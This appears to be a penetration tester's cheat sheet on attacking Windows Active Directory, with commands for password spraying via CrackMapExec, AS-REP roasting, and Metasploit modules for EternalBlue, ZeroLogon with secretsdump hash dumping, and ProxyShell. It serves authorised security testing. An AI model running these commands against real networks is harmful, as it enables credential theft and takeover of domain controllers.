 ### Finding valid usernames

Kerbrute replacement: https://github.com/Tylous/Talon
### Password spray with CrackMapExec to find users with password same as username

```
crackmapexec smb <DC IP> -u users.txt -p users.txt --no-bruteforce
```

### Password spray common passwords

Try common passwords such as "[CompanyName]#1" and season/year combinations (Winter2022!, Spring2022!, Summer2022!, Summer2022#1 etc.). Get an updated list from https://weakpasswords.net/

## Get password hashes for Active Directory users with "Do Not Require Kerberos Preauthentication" set

In the previous steps, if password spraying or user enumeration via kerbrute reveals valid usernames but you don't have any passwords, try "asreproasting" the valid usernames.

`GetNPUsers.py -dc-ip [Domain Controller IP address] -request [Domain Name]/`

## Eternalblue

Metasploit: `use auxiliary/scanner/smb/smb_ms17_010`

## ZeroLogon CVE-2020-1472

Be sure to restore the DC password or you will break active directory and make the client very unhappy! Watch this Metasploit demo of the exploit and restore BEFORE you exploit it! https://youtu.be/Z5oQmHVsqjA?t=1653

You will need the NetBIOS computer name. It should be the same as the hostname, but you can get the NetBIOS computer name from an nmap service scan (-sV). You can also get the NetBIOS name by running the Metasploit `auxiliary/scanner/netbios/nbname` module.

Use the Metasploit module `admin/dcerpc/cve_2020_1472_zerologon`. To test for the vulnerability, use 'check' instead of 'exploit' or 'run' to start the module.

If vulnerable and your exploit is successful, run secretsdump: `python3 secretsdump.py -just-dc -no-pass DC01\$@10.10.208.101`

Run the Metasploit module again using the RESTORE action to restore the Domain Controller's password.

## ProxyShell (Microsoft Exchange ProxyShell RCE CVE-2021-31207)

Metasploit: `use exploit/windows/http/exchange_proxyshell_rce`. Test for the vulnerability by running the module with 'check'.

## Exploit open SMTP relay
